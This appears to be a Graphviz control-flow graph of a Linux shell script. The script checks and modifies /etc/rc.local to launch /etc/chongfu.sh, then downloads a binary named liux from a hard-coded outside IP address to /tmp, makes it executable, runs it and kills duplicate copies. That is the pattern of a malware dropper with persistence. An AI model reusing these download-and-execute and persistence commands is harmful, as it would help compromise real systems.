 digraph {
12 [label=" cat /etc/rc.local"];
12 -> 16;
16 [label=" grep /etc/chongfu.sh"];
16 -> 20;
20 [label=" grep -v grep"];
20 -> 27;
20 -> 31;
20 -> 41;
27 [label=" echo "];
27 -> 41;
392 [label=" sleep 999"];
392 -> 41;
31 [label=" echo sh /etc/chongfu.sh & "];
31 -> 41;
41 [label=" \[ 1 \]"];
41 -> 52;
52 [label=" ps aux"];
52 -> 56;
56 [label=" grep /tmp/liux"];
56 -> 60;
60 [label=" grep -v grep"];
60 -> 65;
65 [label=" wc -l"];
65 -> 73;
73 [label=" \[ $Centos_sshd_killn -eq 0 \]"];
73 -> 87;
73 -> 147;
87 [label=" \[ ! -f /tmp/liux \]"];
87 -> 99;
87 -> 142;
99 [label=" \[ -f /usr/bin/wget \]"];
99 -> 107;
99 -> 136;
99 -> 142;
107 [label=" cp /usr/bin/wget ."];
107 -> 112;
112 [label=" chmod +x wget"];
112 -> 117;
117 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
117 -> 125;
125 [label=" chmod 755 /tmp/liux"];
125 -> 130;
130 [label=" rm wget -rf"];
130 -> 142;
136 [label=" echo No wget"];
136 -> 142;
147 [label=" \[ $Centos_sshd_killn -gt 1 \]"];
147 -> 164;
147 -> 215;
147 -> 224;
164 [label=" ps aux"];
164 -> 168;
168 [label=" grep liux"];
168 -> 172;
172 [label=" grep -v grep"];
172 -> 177;
206 [label=" kill -9 $killed"];
206 -> 186;
206 -> 224;
177 [label=" awk {print $2}"];
177 -> 186;
194 [label=" \[ $Centos_sshd_killn -eq 1 \]"];
194 -> 186;
194 -> 203;
194 -> 206;
194 -> 224;
203 [label=" continue"];
203 -> 186;
203 -> 224;
186 [label=" $Centos_sshd_killn-1"];
186 -> 194;
142 [label=" /tmp/liux"];
142 -> 224;
215 [label=" echo "];
215 -> 224;
224 [label=" ps aux"];
224 -> 228;
228 [label=" grep /tmp/liux"];
228 -> 232;
232 [label=" grep -v grep"];
232 -> 237;
237 [label=" wc -l"];
237 -> 245;
245 [label=" \[ $Centos_ssh_killn -eq 0 \]"];
245 -> 259;
245 -> 319;
259 [label=" \[ ! -f /tmp/liux \]"];
259 -> 271;
259 -> 314;
271 [label=" \[ -f /usr/bin/wget \]"];
271 -> 279;
271 -> 308;
271 -> 314;
279 [label=" cp /usr/bin/wget ."];
279 -> 284;
284 [label=" chmod +x wget"];
284 -> 289;
289 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
289 -> 297;
297 [label=" chmod 755 /tmp/liux"];
297 -> 302;
302 [label=" rm wget -rf"];
302 -> 314;
308 [label=" echo No wget"];
308 -> 314;
319 [label=" \[ $Centos_ssh_killn -gt 1 \]"];
319 -> 336;
319 -> 387;
319 -> 392;
336 [label=" ps aux"];
336 -> 340;
340 [label=" grep liux"];
340 -> 344;
344 [label=" grep -v grep"];
344 -> 349;
378 [label=" kill -9 $killed"];
378 -> 358;
378 -> 392;
349 [label=" awk {print $2}"];
349 -> 358;
366 [label=" \[ $Centos_ssh_killn -eq 1 \]"];
366 -> 358;
366 -> 375;
366 -> 378;
366 -> 392;
375 [label=" continue"];
375 -> 358;
375 -> 392;
358 [label=" $Centos_ssh_killn"];
358 -> 366;
314 [label=" /tmp/liux"];
314 -> 392;
387 [label=" echo "];
387 -> 392;
}
